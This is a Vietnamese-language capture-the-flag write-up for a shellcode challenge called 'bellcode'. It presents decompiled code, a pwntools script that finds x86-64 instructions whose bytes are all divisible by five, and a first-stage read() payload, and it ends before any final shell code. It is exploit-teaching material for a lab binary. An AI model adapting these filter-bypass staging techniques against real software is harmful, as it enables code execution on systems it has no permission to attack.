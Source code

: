 **1. Tìm lỗi**

Dùng lệnh 'file' kiểm tra ta có:

```
bellcode: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=da59479ea84f3486e2045ab7bd8f81df1e7625a1, for GNU/Linux 3.2.0, not stripped
```

Mở bằng IDA-64 ta được source như sau:

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned __int64 i; // [rsp+0h] [rbp-10h]

  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  mmap((void *)0xFAC300, 0x2000uLL, 7, 33, -1, 0LL);
  puts("What's your shellcode?");
  fgets((char *)0xFAC300, 4096, stdin);
  for ( i = 16433920LL; i <= 0xFAD2FF; ++i )
  {
    if ( *(_BYTE *)i % 5u )
    {
      puts(aSeemsThatYouTr);
      exit(-1);
    }
  }
  puts("OK. Running your shellcode now!");
  MEMORY[0xFAC300]();
  return 0;
}
```

- Hàm mmap được sử dụng để cấp phát một vùng nhớ mới với kích thước 0x2000 byte và quyền truy cập đọc/ghi. Địa chỉ bắt đầu của vùng nhớ được cấp phát được chỉ định là 0xFAC300. Lệnh này được sử dụng để lưu shellcode được nhập vào từ người dùng.
- Vòng lặp for được sử dụng để kiểm tra tính hợp lệ của shellcode. Vòng lặp kiểm tra từ địa chỉ 0xFAC300LL (hay 16433920 trong hệ thập phân) đến địa chỉ 0xFAD2FF (hay 16646143 trong hệ thập phân). Với mỗi địa chỉ, nếu giá trị byte tại địa chỉ đó không chia hết cho 5, chương trình sẽ in ra chuỗi "Seems that you try to exploit me :(" và thoát khỏi chương trình với mã lỗi -1.
- Cuối cùng, shellcode được thực thi bằng cách gọi hàm tại địa chỉ 0xFAC300.

**2. Ý tưởng**

Để viết được shellcode thì chúng ta cần phải vượt qua lúc kiểm tra byte chia hết cho 5 và xem các thanh ghi đang có gì khi bắt đầu shellcode.

Dưới đây là hàm để chúng ta vượt qua kiểm tra byte:

```
def checkShell(ins, shellcode):
    print("Checking: ", ins, end='\r')
    for i in shellcode:
        if (i % 5 != 0):
            return 0
    print(ins, "-->", hexlify(shellcode).decode())
    return 1

def searchAdd():
    regs_16 = ['al', 'bl', 'cl', 'dl', 'si']
    regs_32 = ['eax', 'ebx', 'ecx', 'edx', 'edi', 'esi']
    regs_64 = ['rax', 'rbx', 'rcx', 'rdx', 'rdi', 'rsi', 'r8', 'r9', 'r10', 'r11', 'r12']
    regs = [regs_16, regs_32, regs_64]

    ins = f'syscall'
    checkShell(ins, asm(ins, arch='amd64'))

    for i in regs:
        for j in i:
            ins = f'mov {j}, 0'
            checkShell(ins, asm(ins, arch='amd64'))
            ins = f'mov {j}, 0xff'
            checkShell(ins, asm(ins, arch='amd64'))
            ins = f'add {j}, 0xff'
            checkShell(ins, asm(ins, arch='amd64'))
            ins = f'sub {j}, 0xff'
            checkShell(ins, asm(ins, arch='amd64'))
            ins = f'dec {j}'
            checkShell(ins, asm(ins, arch='amd64'))
            ins = f'inc {j}'
            checkShell(ins, asm(ins, arch='amd64'))

    for j in regs[2]:
        ins = f'pop {j}'
        checkShell(ins, asm(ins, arch='amd64'))
        ins = f'push {j}'
        checkShell(ins, asm(ins, arch='amd64'))

if args.FINDINS:
    searchAdd()
    exit()
```

Kết quả có được như sau:

![find.png](photo/find.png)

CHúng ta thấy được có thể kiểm soát 1 phần 'eax' nhưng nếu quá lớn thì có thể kiểm soát qua 'rdx', 'rdi'.

Tiêp theo là đi kiểm tra xem các thanh ghi đang như thế nào khi bắt đầu bước vào shellcode.

![read.png](photo/read.png)

Ta thấy trước khi nhảy đến shellcode thì chương trình đã gán 'rax' bằng 0. Điều này đồng nghĩa chúng ta có thể gọi hàm 'read'.

Kiểm tra xem địa chỉ 0xFAC300 trong mmap đã tạo có thể ghi được hay không.

![vmmap.png](photo/vmmap.png)

Vậy chúng ta đã chắc chắn được địa chỉ 0xFAC300 có thể được ghi vào.

Ta có thứ tự khai thác như sau:

- Thực hiện 'read()'
- Ghi shellcode vào.

**3. Khai thác**

- Thực hiện 'read()'

Ta có đoạn shellcode đầu tiên như sau:

```
payload = asm(
    'mov esi, 0xfac300\n'+
    'pop rdi\n'*1 +
    'syscall\n'
    , arch='amd64'
)
r.sendlineafter(b'shellcode?\n', payload)
r.interactive()
```

